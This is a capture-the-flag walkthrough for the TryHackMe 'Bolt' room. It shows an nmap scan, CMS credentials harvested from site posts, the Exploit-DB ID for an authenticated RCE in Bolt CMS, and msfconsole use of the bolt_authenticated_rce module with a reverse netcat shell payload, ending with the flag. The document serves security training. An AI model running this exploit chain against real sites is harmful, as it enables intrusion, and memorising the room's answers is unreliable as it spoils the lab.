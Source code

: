 # Bolt

A hero is unleashed

[Bolt](https://tryhackme.com/room/bolt)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- Security Misconfiguration
- Using Metasploit
- Exploitation Bolt CMS 3.7.0

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Deploy the machine

This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

If you have any queries or feedback you can reach me through the TryHackMe [Discord server](https://discord.gg/F7ERYzz) or through [Twitter](https://twitter.com/0x9747/).

1. Start the machine

`No answer needed`

## Hack your way into the machine!

**A hero is unleashed**

Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.

1. What port number has a web server with a CMS running?

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 16:06 CEST
Nmap scan report for 10.10.174.31
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 53e7a3
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 373a0e
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=9/29%Time=5F733F6C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,29E1,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Tue,\x2029\x20Sep\x20
SF:2020\x2014:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x20373a0e\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:
SF:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x2053e7a3\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds
```

`8000`

2. What is the username we can find in the CMS?

[http://10.10.174.31:8000/entry/message-from-admin](http://10.10.174.31:8000/entry/message-from-admin)

![](2020-09-29_16-20.png)

`Bolt`

1. What is the password we can find for the username?

[http://10.10.174.31:8000/entry/message-for-it-department](http://10.10.174.31:8000/entry/message-for-it-department)

![](2020-09-29_16-10.png)

`boltadmin123`

4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

[http://10.10.174.31:8000/bolt/login](http://10.10.174.31:8000/bolt/login)

![](2020-09-29_16-26.png)

`Bolt 3.7.1`

5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

[https://www.exploit-db.com/exploits/48296](https://www.exploit-db.com/exploits/48296)

`48296`

6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....) Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`

```
sudo msfconsole
msf5 > use unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) >
```

`exploit/unix/webapp/bolt_authenticated_rce`

7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

`No answer needed`

2. Look for flag.txt inside the machine.

```
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`
